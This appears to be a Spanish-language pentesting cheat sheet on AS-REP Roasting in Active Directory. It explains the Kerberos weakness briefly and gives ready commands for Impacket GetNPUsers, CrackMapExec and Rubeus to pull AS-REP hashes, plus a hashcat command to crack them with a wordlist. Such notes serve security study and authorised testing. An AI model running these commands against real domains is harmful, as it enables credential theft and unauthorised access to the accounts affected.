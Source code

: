 # ASREProstable 

Tags: #AD #ASREProstable #Rubeus #Impacket #Crackmapexec #HashCat 

El "KRB_AS_REP Roasting" es un ataque dirigido a cuentas en dominios de Active Directory (AD) que tienen habilitada la opción "No requiere preautenticación de Kerberos". Esta configuración permite a un atacante solicitar un ticket de autenticación (AS-REP) sin proporcionar una preautenticación válida. El atacante puede capturar este ticket y descifrarlo fuera de línea para intentar recuperar las contraseñas en texto claro de las cuentas afectadas. Este método explota configuraciones inseguras y puede ser mitigado desactivando dicha propiedad en las cuentas y aplicando contraseñas fuertes junto con políticas de monitoreo.

* [CVE-2022-33679](https://infayer.com/archivos/1661)

```bash 
1. Preautenticación de Kerberos: Normalmente, Kerberos requiere que un usuario proporcione no solo su nombre de usuario sino también su contraseña para obtener un ticket TGT (Ticket Granting Ticket) durante el proceso de autenticación inicial (AS-REQ). Esta es una medida de seguridad diseñada para prevenir ataques de tipo "offline" en los que se intenta adivinar las contraseñas.
    
2. Cuentas sin Preautenticación: Sin embargo, en algunos casos, esta propiedad puede estar deshabilitada para ciertas cuentas debido a necesidades de compatibilidad o configuraciones erróneas. Esto significa que el KDC (Key Distribution Center) enviará la respuesta (AS-REP) que contiene el TGT cifrado sin requerir una prueba válida de conocimiento de la contraseña del usuario.

# Funcionamiento 

1. Enumeración de Usuarios: Un atacante primero enumerará las cuentas de usuario que tienen deshabilitada la preautenticación de Kerberos.
    
2. Solicitud de TGT: Luego, el atacante puede enviar una solicitud AS-REQ para esas cuentas y el KDC responderá con un AS-REP que contiene el TGT cifrado usando la contraseña del usuario.
    
3. Ataque Offline: A diferencia de un ataque de fuerza bruta online, el atacante puede ahora intentar descifrar el TGT offline, utilizando herramientas de cracking de contraseñas para adivinar la contraseña sin alertar al sistema o bloquear la cuenta de usuario.
```

## Explotar con Impacket

```bash 
# Ejemplo de un hash 

❯ $krb5asrep$23$asrep.user@domain1.corp:0939461A3CF12B34FC2EEDE8C8154E15$55613643FA62AB315871CFD9B90978AB2D3...
```

```bash 
❯ impacket-GetNPUsers 'domain1.corp/asrep.user' -no-pass -dc-ip 18.116.10.36 -request

	# domain1.corp/asrep.user = Usuario vulnerable o lista de usuarios 
	# no-pass = No hay una contraseña 
	# dc-ip = Ip del DC
```

## Explotar con CrackMapExec

```bash 
❯ ./cme ldap 18.116.10.36 -u 'clearpass.user' -p 'Password@1' --asreproast output.txt
```

## Explotar con Rubeus 

```powershell
❯ .\Rubeus.exe asreproast /user:asrep.user /format:hashcat /outfile:hashes.asreproast 

	# user = Usuario vulnerable
	# outfile = Exportar a un archivo 
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 18200 --force hashes.asreproast /usr/share/wordlists/rockyou.txt

	# m = Método por fuerza bruta
	# 18200 = Es un ASREProstable
	# hashes.asreproast = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```